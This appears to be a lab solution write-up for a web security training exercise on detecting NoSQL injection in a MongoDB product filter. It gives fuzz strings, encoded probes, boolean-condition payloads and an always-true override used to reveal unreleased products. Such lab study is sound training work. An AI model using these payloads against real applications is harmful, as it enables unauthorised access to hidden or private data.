

# Detecting NoSQL injection
# Objective
The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.\
\
To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.

# Solution
## Detecting syntax injection
Fuzz string:
```
'"`{
;$Foo}
$Foo \xYZ
```

Encoded fuzz string:
```
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
||
|:--:| 
| *Fuzz string triggered internal server error* |

### Determinig which characters are processed
Some of the characters from fuzz string cause an error. In order to find them, they have to be checked one by one. For example:
||
|:--:| 
| `'` triggered an error |
||
| `\'` - Escaped character `'` does not trigger any error |

Payload: `Accessories'%2B'` (`Accessories'+'`) does not trigger error. Instead `+` a `-` can be used. Character `-` does not have to be encoded.
||
|:--:| 
| `'` triggered an error |

### Confirming conditional behavior
The following payloads helps to to confirm whether an application is vulnerable to condicional query manipulations:
```
Encoded: '+%26%26+0+%26%26+'x
Decoded: ' && 0 && 'x

Encoded: '+%26%26+1+%26%26+'x
Decoded: ' && 1 && 'x
```

||
|:--:| 
| *Content wasn't loaded* |
||
| *Content was loaded correctly* |

### Overriding existing conditions
The following condition will allways evaluate to true:
```
'||1||'
'||'1'=='1
```

||
|:--:| 
||

Alternatively the `null byte` payload could be used to ignore the rest of the conditional statement. In this case it did not work.
```
Payload: test'%00
Expected query structure: this.category == 'test'\u0000' && this.released == 1
```

